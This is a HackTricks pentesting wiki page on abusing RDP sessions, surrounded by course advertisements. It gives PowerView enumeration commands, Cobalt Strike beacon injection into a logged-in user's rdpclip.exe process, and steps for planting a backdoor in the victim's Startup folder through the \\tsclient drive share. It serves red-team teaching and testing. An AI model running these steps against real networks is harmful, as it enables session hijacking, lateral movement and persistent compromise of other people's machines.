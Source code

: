 # RDP Sessions Abuse

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDP Process Injection

If the **external group** has **RDP access** to any **computer** in the current domain, an **attacker** could **compromise that computer and wait for him**.

Once that user has accessed via RDP, the **attacker can pivot to that users session** and abuse its permissions in the external domain.

```powershell
# Supposing the group "External Users" has RDP access in the current domain
## lets find where they could access
## The easiest way would be with bloodhound, but you could also run:
Get-DomainGPOUserLocalGroupMapping -Identity "External Users" -LocalGroup "Remote Desktop Users" | select -expand ComputerName
#or
Find-DomainLocalGroupMember -GroupName "Remote Desktop Users" | select -expand ComputerName

# Then, compromise the listed machines, and wait til someone from the external domain logs in:
net logons
Logged on users at \\localhost:
EXT\super.admin

# With cobalt strike you could just inject a beacon inside of the RDP process
beacon> ps
 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 ...
 4960  1012  rdpclip.exe                  x64   3           EXT\super.admin

beacon> inject 4960 x64 tcp-local
## From that beacon you can just run powerview modules interacting with the external domain as that user
```

Check **other ways to steal sessions with other tools** [**in this page.**](../../network-services-pentesting/pentesting-rdp.md#session-stealing)

## RDPInception

If a user access via **RDP into a machine** where an **attacker** is **waiting** for him, the attacker will be able to **inject a beacon in the RDP session of the user** and if the **victim mounted his drive** when accessing via RDP, the **attacker could access it**.

In this case you could just **compromise** the **victims** **original computer** by writing a **backdoor** in the **statup folder**.

```powershell
# Wait til someone logs in:
net logons
Logged on users at \\localhost:
EXT\super.admin

# With cobalt strike you could just inject a beacon inside of the RDP process
beacon> ps
 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 ...
 4960  1012  rdpclip.exe                  x64   3           EXT\super.admin

beacon> inject 4960 x64 tcp-local

# There's a UNC path called tsclient which has a mount point for every drive that is being shared over RDP.
## \\tsclient\c is the C: drive on the origin machine of the RDP session
beacon> ls \\tsclient\c

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     02/20/2021 10:15:23   Config.Msi
          dir     10/18/2016 01:59:39   Documents and Settings
          [...]

# Upload backdoor to startup folder
beacon> cd \\tsclient\c\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
beacon> upload C:\Payloads\pivot.exe
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

